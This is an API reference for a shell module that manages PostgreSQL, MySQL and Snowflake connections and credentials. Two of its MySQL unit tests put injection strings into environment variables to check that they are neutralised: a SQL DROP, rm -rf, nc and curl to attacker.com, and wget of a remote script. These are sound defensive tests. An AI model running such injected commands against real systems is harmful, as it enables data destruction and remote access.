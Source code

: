 Database Functions API Reference
=================================

This module provides secure database connection management with integrated credential storage for PostgreSQL, MySQL, Snowflake, and other database systems. It maintains backward compatibility while adding modern security features.

.. note::
   All database functions integrate with the credential management system for secure password storage and retrieval across sessions.

PostgreSQL Functions
-------------------

setup_postgres_credentials()
~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Function Definition:**

Configure PostgreSQL connection credentials with secure storage and interactive setup options.

.. code-block:: bash

   setup_postgres_credentials [--interactive]

**Examples and Elaboration:**

PostgreSQL connection uses standard environment variables with secure credential management:

.. code-block:: bash

   # Basic credential setup (uses existing PGPASSWORD or credential store)
   setup_postgres_credentials
   # Output:
   # 🐘 PostgreSQL Credential Setup
   # 
   # Host: localhost
   # User: dheerajchand
   # Port: 5432
   # Database: gis
   # 
   # ✅ PostgreSQL credentials loaded from secure storage

   # Interactive setup (prompts for password)
   setup_postgres_credentials --interactive
   # Output:
   # 🐘 PostgreSQL Credential Setup
   # 
   # Host: localhost
   # User: dheerajchand
   # Port: 5432
   # Database: gis
   # 
   # Enter PostgreSQL password for dheerajchand@localhost:
   # [Password prompt - hidden input]
   # Store password securely? (y/n): y
   # 🔐 Password stored securely for future use
   # ✅ PostgreSQL credentials configured

Environment variables used:

.. code-block:: bash

   export PGHOST="${PGHOST:-localhost}"      # Database host
   export PGUSER="${PGUSER:-dheerajchand}"   # Database user
   export PGPORT="${PGPORT:-5432}"           # Database port
   export PGDATABASE="${PGDATABASE:-gis}"    # Default database
   export PGPASSWORD="[secured]"             # Password (set by function)

Credential resolution order:

1. **Existing PGPASSWORD**: If already set, uses current value
2. **Credential Store**: Retrieves from secure credential backend
3. **Interactive Prompt**: Prompts user if `--interactive` flag used
4. **Graceful Fallback**: Returns without error if no credentials available

**Unit Tests:**

.. code-block:: bash

   # Test: Credential setup with existing password
   test_postgres_credentials_existing() {
       export PGPASSWORD="test123"
       setup_postgres_credentials
       [[ "$PGPASSWORD" == "test123" ]]
   }
   
   # Test: Environment variables are set
   test_postgres_env_vars() {
       setup_postgres_credentials
       [[ -n "$PGHOST" ]] && [[ -n "$PGUSER" ]] && [[ -n "$PGPORT" ]]
   }
   
   # Test: Function handles missing credentials gracefully
   test_postgres_credentials_missing() {
       unset PGPASSWORD
       setup_postgres_credentials >/dev/null 2>&1
       [[ $? -eq 0 ]]  # Should not fail
   }

pg_connect()
~~~~~~~~~~~

**Function Definition:**

Establish PostgreSQL connection with automatic credential setup and connection testing.

.. code-block:: bash

   pg_connect [database] [--test]

**Examples and Elaboration:**

.. code-block:: bash

   # Connect to default database
   pg_connect
   # Output:
   # 🐘 Connecting to PostgreSQL...
   # 🔗 Connection: dheerajchand@localhost:5432/gis
   # ✅ Connected successfully
   # psql (15.4)
   # gis=#

   # Connect to specific database
   pg_connect analytics
   # Output:
   # 🐘 Connecting to PostgreSQL database: analytics
   # 🔗 Connection: dheerajchand@localhost:5432/analytics
   # ✅ Connected successfully
   # analytics=#

   # Test connection without opening psql
   pg_connect --test
   # Output:
   # 🐘 Testing PostgreSQL connection...
   # 🔗 Host: localhost:5432
   # 👤 User: dheerajchand
   # 🗄️ Database: gis
   # ✅ Connection successful!

   # Connection failure handling
   pg_connect nonexistent_db
   # Output:
   # 🐘 Connecting to PostgreSQL database: nonexistent_db
   # ❌ Connection failed: database "nonexistent_db" does not exist
   # 💡 Available databases:
   #    • gis
   #    • postgres  
   #    • template1

Connection process:

1. **Credential Setup**: Calls `setup_postgres_credentials` if needed
2. **Connection Test**: Verifies connectivity before opening psql
3. **Error Handling**: Provides helpful error messages and suggestions
4. **Database List**: Shows available databases on connection failure

**Unit Tests:**

.. code-block:: bash

   # Test: Connection function exists
   test_pg_connect_function() {
       type pg_connect >/dev/null 2>&1
   }
   
   # Test: Connection test mode
   test_pg_connect_test_mode() {
       # Mock successful connection test
       pg_connect --test >/dev/null 2>&1
       # Function should execute without error
       [[ $? -eq 0 ]]
   }

pg_status()
~~~~~~~~~~

**Function Definition:**

Display comprehensive PostgreSQL server status, connection information, and database statistics.

.. code-block:: bash

   pg_status()

**Examples and Elaboration:**

.. code-block:: bash

   pg_status
   # Output:
   # 🐘 PostgreSQL Status
   # ===================
   # 
   # Connection Configuration:
   #   Host: localhost:5432
   #   User: dheerajchand
   #   Database: gis
   #   SSL Mode: prefer
   # 
   # Server Status:
   #   ✅ Server: Running
   #   Version: PostgreSQL 15.4
   #   Uptime: 2 days, 14:23:45
   #   Max Connections: 100
   #   Active Connections: 3
   # 
   # Database Information:
   #   Total Databases: 4
   #   Current DB Size: 2.3 GB
   #   Available Space: 45.7 GB
   # 
   # Recent Activity:
   #   Active Queries: 1
   #   Idle Connections: 2
   #   Last Query: SELECT * FROM users WHERE...

When server is not running:

.. code-block:: bash

   pg_status
   # Output:
   # 🐘 PostgreSQL Status
   # ===================
   # 
   # ❌ Server: Not running or not accessible
   # 
   # Connection Configuration:
   #   Host: localhost:5432
   #   User: dheerajchand
   #   Database: gis
   # 
   # 💡 Troubleshooting:
   #   • Check if PostgreSQL is installed
   #   • Verify server is running: brew services start postgresql
   #   • Check connection settings

**Unit Tests:**

.. code-block:: bash

   # Test: Status function execution
   test_pg_status_execution() {
       pg_status >/dev/null 2>&1
       [[ $? -eq 0 ]]
   }

MySQL Functions
--------------

setup_mysql_credentials()
~~~~~~~~~~~~~~~~~~~~~~~~~

**Function Definition:**

Configure MySQL connection credentials with secure storage and multiple authentication methods.

.. code-block:: bash

   setup_mysql_credentials [--interactive] [--host host] [--user user]

**Examples and Elaboration:**

.. code-block:: bash

   # Basic MySQL credential setup
   setup_mysql_credentials
   # Output:
   # 🐬 MySQL Credential Setup
   # 
   # Host: localhost:3306
   # User: root
   # Database: mysql
   # 
   # ✅ MySQL credentials loaded from secure storage

   # Custom host and user
   setup_mysql_credentials --host db.company.com --user app_user
   # Output:
   # 🐬 MySQL Credential Setup
   # 
   # Host: db.company.com:3306
   # User: app_user
   # Database: mysql
   # 
   # Enter MySQL password for app_user@db.company.com:
   # [Password prompt]
   # Store password securely? (y/n): y

Environment variables configured:

.. code-block:: bash

   export MYSQL_HOST="${MYSQL_HOST:-localhost}"
   export MYSQL_USER="${MYSQL_USER:-root}"
   export MYSQL_PORT="${MYSQL_PORT:-3306}"
   export MYSQL_DATABASE="${MYSQL_DATABASE:-mysql}"
   export MYSQL_PWD="[secured]"  # MySQL's standard password variable

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: MySQL injection and credential security
   test_mysql_credentials_injection_security() {
       # Test SQL injection attempts in credentials
       export MYSQL_USER="admin'; DROP DATABASE test; --"
       export MYSQL_HOST="localhost\$(rm -rf /tmp/mysql_attack)"
       export MYSQL_DATABASE="test\`nc attacker.com 4444\`"

       setup_mysql_credentials >/dev/null 2>&1

       # Verify no commands executed
       assert_false "[ -f '/tmp/mysql_attack' ]" "Should not execute commands from MYSQL_HOST"

       # Verify credentials are sanitized for use
       local mysql_cmd_safe=true
       if command -v mysql >/dev/null 2>&1; then
           # Test that credentials can't be used for injection
           mysql --user="$MYSQL_USER" --host="$MYSQL_HOST" --execute="SELECT 1;" 2>/dev/null && mysql_cmd_safe=false
       fi
       assert_true "$mysql_cmd_safe" "MySQL credentials should be safe from injection"
   }

mysql_connect()
~~~~~~~~~~~~~~

**Function Definition:**

Establish MySQL connection with automatic credential resolution and connection testing.

.. code-block:: bash

   mysql_connect [database] [--test]

**Examples and Elaboration:**

.. code-block:: bash

   # Connect to MySQL
   mysql_connect
   # Output:
   # 🐬 Connecting to MySQL...
   # 🔗 Connection: root@localhost:3306/mysql
   # ✅ Connected successfully
   # mysql>

   # Test MySQL connection
   mysql_connect --test
   # Output:
   # 🐬 Testing MySQL connection...
   # 🔗 Host: localhost:3306
   # 👤 User: root
   # 🗄️ Database: mysql
   # 📊 Server Version: 8.0.34
   # ✅ Connection successful!

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: MySQL connection parameter validation
   test_mysql_connect_parameter_validation() {
       # Mock mysql to capture connection attempts
       local connection_attempts=()
       mysql() {
           connection_attempts+=("$@")
           return 1  # Mock connection failure
       }

       # Test malicious connection parameters
       export MYSQL_HOST="db.evil.com; curl attacker.com/steal"
       export MYSQL_USER="user\$(wget malicious.com/script)"
       export MYSQL_DATABASE="app\`id > /tmp/mysql_id\`"

       mysql_connect >/dev/null 2>&1

       # Verify malicious parameters were not executed
       assert_false "[ -f '/tmp/mysql_id' ]" "Should not execute backticks from database name"

       # Verify parameters are properly escaped when passed to mysql
       for arg in "${connection_attempts[@]}"; do
           assert_false "[[ '$arg' =~ 'curl attacker' ]]" "Should not pass curl commands to mysql"
           assert_false "[[ '$arg' =~ '\$(' ]]" "Should not pass unescaped command substitution"
       done

       unset -f mysql
   }

Snowflake Functions
------------------

setup_snowflake_credentials()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Function Definition:**

Configure Snowflake connection with account, warehouse, and role management for data warehouse operations.

.. code-block:: bash

   setup_snowflake_credentials [--account account] [--warehouse warehouse] [--interactive]

**Examples and Elaboration:**

.. code-block:: bash

   # Interactive Snowflake setup
   setup_snowflake_credentials --interactive
   # Output:
   # ❄️ Snowflake Credential Setup
   # 
   # Enter Snowflake account identifier: mycompany.us-west-2
   # Enter username: data_analyst
   # Enter password: [hidden]
   # Enter warehouse (optional): COMPUTE_WH
   # Enter database (optional): ANALYTICS_DB
   # Enter role (optional): DATA_ANALYST_ROLE
   # 
   # Store credentials securely? (y/n): y
   # 🔐 Snowflake credentials stored securely
   # ✅ Snowflake configuration complete

   # Using existing configuration
   setup_snowflake_credentials
   # Output:
   # ❄️ Snowflake Credential Setup
   # 
   # Account: mycompany.us-west-2
   # User: data_analyst
   # Warehouse: COMPUTE_WH
   # Database: ANALYTICS_DB
   # Role: DATA_ANALYST_ROLE
   # 
   # ✅ Snowflake credentials loaded from secure storage

Environment variables configured:

.. code-block:: bash

   export SNOWFLAKE_ACCOUNT="mycompany.us-west-2"
   export SNOWFLAKE_USER="data_analyst"
   export SNOWFLAKE_PASSWORD="[secured]"
   export SNOWFLAKE_WAREHOUSE="COMPUTE_WH"
   export SNOWFLAKE_DATABASE="ANALYTICS_DB" 
   export SNOWFLAKE_ROLE="DATA_ANALYST_ROLE"

**Unit Tests:**

.. code-block:: bash

   # Test: Snowflake credentials setup
   test_snowflake_credentials() {
       setup_snowflake_credentials
       [[ -n "$SNOWFLAKE_ACCOUNT" ]]
   }

snowflake_connect()
~~~~~~~~~~~~~~~~~~

**Function Definition:**

Connect to Snowflake with automatic session management and query execution capabilities.

.. code-block:: bash

   snowflake_connect [--query "SQL"] [--database database] [--warehouse warehouse]

**Examples and Elaboration:**

.. code-block:: bash

   # Interactive Snowflake connection
   snowflake_connect
   # Output:
   # ❄️ Connecting to Snowflake...
   # 🔗 Account: mycompany.us-west-2
   # 🏢 Warehouse: COMPUTE_WH
   # 🗄️ Database: ANALYTICS_DB
   # 👤 Role: DATA_ANALYST_ROLE
   # ✅ Connected successfully
   # ANALYTICS_DB.PUBLIC>

   # Execute query directly
   snowflake_connect --query "SELECT COUNT(*) FROM customers;"
   # Output:
   # ❄️ Executing Snowflake query...
   # COUNT(*)
   # 1,234,567
   # ✅ Query executed successfully

   # Use specific warehouse
   snowflake_connect --warehouse LARGE_WH --database SALES_DB
   # Output:
   # ❄️ Connecting with custom configuration...
   # 🏢 Warehouse: LARGE_WH
   # 🗄️ Database: SALES_DB
   # ✅ Connected successfully

**Unit Tests:**

.. code-block:: bash

   # Test: Snowflake connect function
   test_snowflake_connect_function() {
       type snowflake_connect >/dev/null 2>&1
   }

General Database Functions
-------------------------

db_list_connections()
~~~~~~~~~~~~~~~~~~~~

**Function Definition:**

List all configured database connections with their status and connection details.

.. code-block:: bash

   db_list_connections()

**Examples and Elaboration:**

.. code-block:: bash

   db_list_connections
   # Output:
   # 🗄️ Database Connections
   # =======================
   # 
   # PostgreSQL:
   #   ✅ Production: dheerajchand@localhost:5432/gis
   #   🔍 Test: Available (credentials stored)
   # 
   # MySQL:
   #   ✅ Local: root@localhost:3306/mysql
   #   ❌ Remote: Connection failed (timeout)
   # 
   # Snowflake:
   #   ✅ Analytics: mycompany.us-west-2 (COMPUTE_WH)
   #   🔒 Credentials: Stored securely
   # 
   # Summary:
   #   Active: 3
   #   Available: 1
   #   Failed: 1

**Unit Tests:**

.. code-block:: bash

   # Test: List connections function
   test_db_list_connections() {
       db_list_connections >/dev/null 2>&1
       [[ $? -eq 0 ]]
   }

db_test_all()
~~~~~~~~~~~~

**Function Definition:**

Test connectivity to all configured databases and report status with performance metrics.

.. code-block:: bash

   db_test_all [--timeout seconds]

**Examples and Elaboration:**

.. code-block:: bash

   # Test all database connections
   db_test_all
   # Output:
   # 🔍 Testing All Database Connections
   # ==================================
   # 
   # PostgreSQL (localhost:5432):
   #   ✅ Connection: Success (127ms)
   #   📊 Server: PostgreSQL 15.4
   #   🗄️ Database: gis (2.3GB)
   # 
   # MySQL (localhost:3306):
   #   ✅ Connection: Success (89ms)
   #   📊 Server: MySQL 8.0.34
   #   🗄️ Database: mysql (45MB)
   # 
   # Snowflake (mycompany.us-west-2):
   #   ✅ Connection: Success (2.1s)
   #   📊 Warehouse: COMPUTE_WH (Running)
   #   🗄️ Database: ANALYTICS_DB
   # 
   # Summary:
   #   ✅ Successful: 3/3
   #   📈 Average Response: 842ms
   #   🎯 All systems operational

   # Test with custom timeout
   db_test_all --timeout 5
   # Output:
   # 🔍 Testing with 5s timeout...
   # [Connection tests with 5 second timeout]

**Unit Tests:**

.. code-block:: bash

   # Test: Database test function
   test_db_test_all() {
       db_test_all >/dev/null 2>&1
       [[ $? -eq 0 ]]
   }

Backup and Maintenance Functions
-------------------------------

pg_backup()
~~~~~~~~~~

**Function Definition:**

Create PostgreSQL database backups with compression and automatic naming.

.. code-block:: bash

   pg_backup [database] [--output path] [--compress]

**Examples and Elaboration:**

.. code-block:: bash

   # Backup default database
   pg_backup
   # Output:
   # 🐘 PostgreSQL Backup
   # ==================
   # 
   # Source: gis@localhost:5432
   # Target: gis_backup_20241204_143022.sql
   # 
   # 📊 Backup Progress:
   #   [####################] 100%
   # 
   # ✅ Backup completed successfully!
   # 📁 File: gis_backup_20241204_143022.sql (23.4 MB)
   # ⏱️  Duration: 2m 34s

   # Compressed backup of specific database
   pg_backup analytics --compress --output ~/backups/
   # Output:
   # 🐘 PostgreSQL Backup (Compressed)
   # ================================
   # 
   # Source: analytics@localhost:5432
   # Target: ~/backups/analytics_backup_20241204_143127.sql.gz
   # 
   # 📊 Backup Progress:
   #   [####################] 100%
   # 
   # ✅ Backup completed successfully!
   # 📁 File: analytics_backup_20241204_143127.sql.gz (5.2 MB)
   # 💾 Compression: 78% reduction
   # ⏱️  Duration: 1m 12s

**Unit Tests:**

.. code-block:: bash

   # Test: Backup function exists
   test_pg_backup_function() {
       type pg_backup >/dev/null 2>&1
   }

Aliases and Shortcuts
--------------------

The module provides convenient aliases for all major database operations:

.. code-block:: bash

   # PostgreSQL shortcuts
   pg               # pg_connect (connect to default database)
   pgtest           # pg_connect --test
   pgstatus         # pg_status
   pgbackup         # pg_backup
   
   # MySQL shortcuts  
   my               # mysql_connect
   mytest           # mysql_connect --test
   mystatus         # mysql_status
   
   # Snowflake shortcuts
   sf               # snowflake_connect
   sftest           # snowflake_connect --test
   
   # General database shortcuts
   dblist           # db_list_connections
   dbtest           # db_test_all
   dbstatus         # db_status_all

Complete Usage Examples
----------------------

**Example 1: Initial database setup**

.. code-block:: bash

   # Setup PostgreSQL credentials interactively
   setup_postgres_credentials --interactive
   
   # Test the connection
   pg_connect --test
   
   # Connect and work
   pg_connect
   # gis=# CREATE TABLE users (...);
   # gis=# \q

**Example 2: Multiple database environment**

.. code-block:: bash

   # Setup multiple databases
   setup_postgres_credentials --interactive
   setup_mysql_credentials --host prod-mysql.company.com --user app_user --interactive
   setup_snowflake_credentials --account company.us-west-2 --interactive
   
   # Test all connections
   db_test_all
   
   # List available connections
   db_list_connections

**Example 3: Backup and maintenance workflow**

.. code-block:: bash

   # Check PostgreSQL status
   pg_status
   
   # Create compressed backup
   pg_backup production_db --compress --output ~/backups/
   
   # Test connection after maintenance
   pg_connect --test

**Example 4: Snowflake data analysis workflow**

.. code-block:: bash

   # Connect to Snowflake
   snowflake_connect --warehouse ANALYTICS_WH --database SALES_DB
   
   # Execute quick queries
   snowflake_connect --query "
   SELECT 
       DATE_TRUNC('month', order_date) as month,
       SUM(revenue) as total_revenue
   FROM orders 
   WHERE order_date >= '2024-01-01'
   GROUP BY 1
   ORDER BY 1;
   "

Integration with Credential System
--------------------------------

The database module integrates seamlessly with the credential management system:

.. code-block:: bash

   # Credentials are automatically stored and retrieved
   setup_postgres_credentials --interactive  # Stores password securely
   
   # Later sessions automatically load credentials
   pg_connect  # No password prompt needed
   
   # Manual credential operations
   store_credential "mysql" "app_user" "secret_password"
   password=$(get_credential "mysql" "app_user" "PASSWORD")

**Security Features:**

- **Encrypted Storage**: All passwords stored using system keychain/credential store
- **No Plain Text**: Passwords never stored in shell history or config files
- **Session Management**: Credentials loaded once per session
- **Backward Compatibility**: Works with existing PGPASSWORD/MYSQL_PWD workflows

Integration with Other Modules
-----------------------------

**With Docker Module:**

.. code-block:: bash

   # Start database containers
   docker_database postgres --init-sql schema.sql
   docker_database mysql --name dev-mysql
   
   # Connect to containerized databases
   export PGPORT=5432
   pg_connect

**With Python Module:**

.. code-block:: bash

   # Data science project with database
   ds_project_init analytics_project
   cd analytics_project
   
   # Setup database connections
   setup_postgres_credentials --interactive
   
   # Use in Python with environment variables
   py_env_switch uv
   python -c "import os; print(f'Connecting to {os.environ.get(\"PGHOST\")}:{os.environ.get(\"PGPORT\")}')"

This comprehensive database module provides secure, convenient access to multiple database systems with integrated credential management and development workflow optimization.
